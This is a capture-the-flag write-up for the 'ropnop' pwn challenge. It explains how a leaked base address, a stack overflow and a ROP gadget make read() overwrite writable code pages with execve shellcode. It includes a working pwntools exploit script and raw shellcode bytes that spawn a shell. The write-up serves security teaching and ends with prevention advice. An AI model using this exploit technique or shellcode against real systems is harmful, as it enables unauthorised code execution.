

# ropnop

## Information
Category: Pwn   
Difficulty: Medium   
Author: Flo   
First Blood: localo   

## Solution

This challange is more tricky in that you are not given any hint what to exploit and the additional difficulty of dealing with the fact that the largest fraction of return instructions are patched with nops. Furthermore, I personally think that the so called "gadget shop"
in the C source file is a little bit misleading in terms of what approach you are to take on this challange. Because of the last challange, which
included a long ropchain, we are now so stuck in that "rop mindset" that we oversee the quiete obvious solution path.

Due to the debug info when running the ropnop binary, we already defeated aslr - at least for the ropnop image. In the C file, we also observe that actually,
we are granted full write capabilities on the code memory pages of ropnop. Combining these thoughts with a read() function at the end of main() lets us think
about the following:

We can abuse read() with the right parameters to directly overwrite code that would be executed after read() returns!   

In order to do so however, we need to somehow call read() with the appropriate parameters. We do this by overflowing the buffer in the main
function frame through read() - the same read() that we will use later.

Crafting our exploit, we first extract the base address from the debug output. Here I assigned it to p_ropnop_code_off.   

```python
#!/usr/bin/python

from pwn import *

# prepare, let user attach debugger
p = process("./ropnop", stdin=PIPE, stdout=PIPE)
print("[i] attached to process")
# raw_input()


# first address leak
leak1 = p.readline().split(" ")
print( "[i] .text start @ " +  leak1[3])
#print( ".code start " + leak1[6])
p_ropnop_code_off = int(leak1[3], 16)
# try to overflow the buffer
```


Now we craft our payload. First we evaluate how much bytes are meant to be read in by read() and adjust our padding.   


```python
s = 'A' * 0x10 # allocated in stack for read 
s += 'T' * 8 # base pointer --> sorry, we dont know this one
```

We use a small rop gadget that pops the memory address of the next instruction after the read libcall into rdi register.
r15 is also popped, but that is just because we couldnt find a "rdi only" rop gadget. We then redirect code execution
back into right before the read library call, which allows us once again, to input bytes. However at this stage, we should be overwriting
code memory with our input, so we fetch some shellcode from shellstorm and read that in from stdin.


```python
s += p64(0x1351+p_ropnop_code_off, endian='little') # --> pop rsi, pop r15
s += p64(0x12d4+p_ropnop_code_off) # desired rsi value (where read will write to ) --> just after read call
s += p64(0x0, endian='little') # !important
s += p64(0x12cf+p_ropnop_code_off, endian='little') # --> return into before read call
p.sendline(s)
s = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
p.sendline(s) # overwrite some .text memory
p.interactive()

```
Now every instruction directly after the read library call should be completely overwritten with our input , and we should get a shell!!!   





flag: CSCG{s3lf_m0d1fy1ng_c0dez!}


## Prevention

A potential fix would involve not leaking the address of the binary image in memory and leaving code pages nonwriteable. 
